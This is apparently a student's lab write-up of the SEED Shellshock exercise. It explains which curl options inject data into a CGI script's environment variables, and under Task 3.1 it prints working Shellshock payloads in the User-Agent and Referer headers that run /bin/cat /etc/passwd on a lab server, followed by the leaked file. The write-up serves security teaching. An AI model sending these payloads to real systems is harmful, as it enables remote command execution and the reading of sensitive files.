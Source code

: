 ```
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=54860
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
```

-H will include extra headers in the request when sending the HTML to the server. Lastly, you can add as many headers as you would like.

5. I believe that -A -H -e should all work to ejectt data into the environemnt variable of the CGI program. The only exception is -v because it only display the version name and we do not have the ability to add data to it. Then, both -H and -e is appending to something new with slight exception (talked about it above), but it both allow us to store the information as some kind of environment variable. Lastly, -A will modidy the USER_AGENT, which is stored as HTTP_USER_AGENT in the environemnt variable. Therefore, within the 4 operations given and shown to us, -A, -H, and -e should all work to eject data into the environment variables.  

### Task 3:

#### Task 3.1:
I am trying to access /etc/passwd:
```
curl -A '() { echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi > 3_1_1.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   926    0   926    0     0   452k      0 --:--:-- --:--:-- --:--:--  452k
[02/16/21]seed@VM:~/.../02_shellshock$ cat 3_1_1.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() { echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi > 3_1_2.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   926    0   926    0     0   452k      0 --:--:-- --:--:-- --:--:--  452k
[02/16/21]seed@VM:~/.../02_shellshock$ diff 3_1_1.txt 3_1_2.txt

```